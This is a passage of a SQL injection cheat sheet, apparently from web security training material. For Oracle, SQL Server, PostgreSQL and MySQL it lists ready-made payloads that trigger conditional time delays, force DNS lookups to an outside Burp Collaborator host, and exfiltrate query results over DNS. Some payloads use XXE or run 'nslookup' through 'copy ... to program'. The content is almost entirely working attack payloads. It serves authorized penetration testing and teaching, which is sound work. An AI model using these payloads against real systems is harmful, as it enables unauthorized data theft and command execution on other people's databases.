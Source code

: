 You can test a single boolean condition and trigger a time delay if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`|

## DNS lookup

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|   |   |
|---|---|
|Oracle|([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br>`SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br>`SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`|
|Microsoft|`exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`|
|PostgreSQL|`copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`|
|MySQL|The following techniques work on Windows only:<br><br>`LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`  <br>`SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`|

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|            |                                                                                                                                                                                                                                                                                                              |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                                            |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                                               |
| PostgreSQL | `create OR replace function f() returns void as $$   declare c text;   declare p text;   begin   SELECT into p (SELECT YOUR-QUERY-HERE);   c := 'copy (SELECT '''') to program ''nslookup '\|p\|'.BURP-COLLABORATOR-SUBDOMAIN''';   execute c;   END;   $$ language plpgsql security definer;   SELECT f();` |
| MySQL      | The following technique works on Windows only:  <br>`SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`                                                                                                                                                                                |